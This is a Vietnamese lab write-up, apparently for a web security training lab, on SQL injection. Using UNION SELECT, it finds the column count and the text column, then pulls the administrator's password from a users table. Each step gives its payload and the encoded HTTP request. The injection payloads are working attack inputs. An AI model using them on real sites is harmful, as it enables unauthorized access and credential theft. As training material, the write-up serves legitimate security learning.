




# SQL Injection Lab 10: Truy xuất nhiều giá trị trong một cột

## Mục tiêu
Dùng `UNION SELECT` để lấy thông tin từ bảng `users` khi chỉ có **một cột hiển thị text**, sau đó đăng nhập tài khoản `administrator`.

## Đề bài

<br><br>

## Bước 1: Xác định số cột của truy vấn
Payload:

```sql
' union select null, null --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20null%2C%20null%20-- HTTP/2
```

Kết quả hiển thị bình thường, suy ra truy vấn có **2 cột**.


<br><br>

## Bước 2: Xác định cột có thể hiển thị text
Payload test:

```sql
' union select null, 'abc' --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20null%2C%20%27abc%27%20-- HTTP/2
```

Kết quả có hiển thị `abc`, nên cột thứ 2 là cột text.


<br><br>

## Bước 3: Lấy mật khẩu của administrator trong một cột
Vì chỉ có 1 cột text nên truy vấn lấy trực tiếp password ở cột đó.

Payload:

```sql
' union select null, password from users where username = 'administrator' --
```

Query trong Burp:

```http
GET /filter?category=%27%20union%20select%20null%2C%20password%20from%20users%20where%20username%20%3D%20%27administrator%27%20-- HTTP/2
```

Response trả về mật khẩu của `administrator`.


<br><br>

## Payload solve

```sql
' union select null, password from users where username = 'administrator' --
```

## Kết quả
Lấy được mật khẩu `administrator` và đăng nhập thành công.
